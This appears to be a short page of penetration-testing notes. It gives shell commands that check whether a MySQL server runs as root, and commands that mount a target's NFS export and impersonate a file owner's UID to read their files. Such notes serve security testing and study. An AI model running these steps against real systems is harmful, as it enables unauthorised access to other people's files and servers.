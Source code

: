 ### [MySQL User Defined Functions](https://redteamnation.com/mysql-user-defined-functions/)

check if user = root

```shell
cat /etc/mysql/mariadb.conf.d/50-server.cnf | grep user
```

NFS mount

```shell
showmount -e <target ip>
#Export list for <target ip>:
#/home/tester    *
mkdir /tmp/tester
sudo mount -t nfs <target ip>:/home/tester /tmp/tester
find /tmp/tester -ls
# file permission, match uid
# drwxr-xr-x   2 1003     1003         1234 Feb 15 13:59 /tmp/Documents
sudo useradd tester01
sudo usermod -u 1003 tester01
sudo su tester01 -c bash
ls -la /tmp/tester
```